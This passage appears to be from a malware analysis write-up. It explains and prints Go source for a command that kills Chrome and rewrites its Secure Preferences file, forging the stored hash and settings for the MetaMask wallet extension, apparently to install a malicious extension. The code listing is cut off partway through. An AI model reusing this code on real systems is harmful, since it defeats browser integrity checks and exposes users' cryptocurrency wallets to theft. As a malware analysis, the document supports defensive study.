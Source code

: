 * AUTO_CHROME_PREFRST ("7ujm")

This command allows for the update of Chrome preferences. It locates the user directory, searches for Chrome's `Secure Preferences` file, kills Chrome, and uses the [gabs](https://github.com/Jeffail/gabs) library to edit the `Secure Preferences` JSON file. The edits seem to target settings for the MetaMask wallet, as it targets extension_hash_key `protection.macs.extensions.settings.nkbihfbeogaeaoehlefnkodbefgpgknn` and extension_setting_key `extensions.settings.nkbihfbeogaeaoehlefnkodbefgpgknn`. The updates include a new hash key and new settings via injected JSON content. This is likely used for the deployment of a malicious extension.

```golang
func AutoModeChromeChangeProfile() (string, [][]byte) {

	var path_list []string

	//get user data dir
	userdata_dir := getUserdataDir()

	// search and list prefs
	_ = filepath.Walk(userdata_dir, func(path string, info os.FileInfo, err error) error {
		if info.Name() == secure_preference_file {
			path_list = append(path_list, path)
		}

		return nil
	})

	// chrome kill
	if runtime.GOOS == "windows" {
		cmd := exec.Command("cmd", "/c", "taskkill /f /im chrome.exe")
		cmd.Run()
	} else {
		cmd := exec.Command("/bin/sh", "-c", "killall chrome")
		cmd.Run()
	}

	// change prefs
	changep, _ := gabs.ParseJSON([]byte(getExtJsonString()))
	for _, path := range path_list {
		prefp, err := gabs.ParseJSONFile(path)
		if err != nil {
			continue
		}

		ok := prefp.ExistsP(extension_hash_key)
		if !ok {
			continue
		}

		prefp.SetP(changep, extension_setting_key)
		prefp.SetP(getExtHash(), extension_hash_key)

		os.WriteFile(path, prefp.Bytes(), 0o644)
	}

	return config.MSG_LOG, [][]byte{[]byte(config.LOG_SUCCESS), []byte("chrome preference change")}
}

// get hash value
func getExtHash() string {

	if runtime.GOOS == "windows" {
		return "B4B0E19A98DEECCC9F9F7DC5F18999C1F2EAAE668F7968C96F7B1CB89C9B0FBD"
	} else {
		return "7A2DEA687C9AB3A86A82893014C926BBB82ECD27B446197559F7512DE9025DA5"
```